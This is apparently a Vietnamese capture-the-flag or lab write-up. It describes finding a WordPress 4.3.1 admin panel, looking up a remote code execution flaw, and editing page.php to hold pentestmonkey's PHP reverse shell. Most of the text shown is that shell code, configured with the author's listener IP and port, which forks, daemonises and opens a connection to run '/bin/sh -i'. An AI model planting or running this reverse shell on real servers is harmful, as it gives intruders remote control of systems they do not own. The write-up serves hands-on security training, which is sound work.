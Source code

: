 ![Screenshot 2024-02-29 000120](https://hackmd.io/_uploads/B1TzQxa3p.png)

Một trang quản trị nội dung `wordpress` xuất hiện , ta tìm thấy phiên bản ở cuối trang là version 4.3.1 :  

![Screenshot 2024-02-28 232543](https://hackmd.io/_uploads/B1s6CR2ha.png)

Hmm, thử search CVE cho version wordpress này xem sao.
Ta tìm được vul về **RCE(Remote Code Execution)** trên phiên bản này. Edit content một file php bất kỳ: page.php, sử dụng payload *[php-reverse-shell.php](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)* của *pentestmonkey*:

```
<?php

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.17.122.154';  // Sử dụng ifconfig để lấy ip máy đang sử dụng😗
$port = 12345;       // Chọn port 12345 để listen kết nối đến🫠
//Còn lại giữ nguyên theo payload gốc😶
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}

	// Make the current process a session leader
	// Will only succeed if we forked
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
```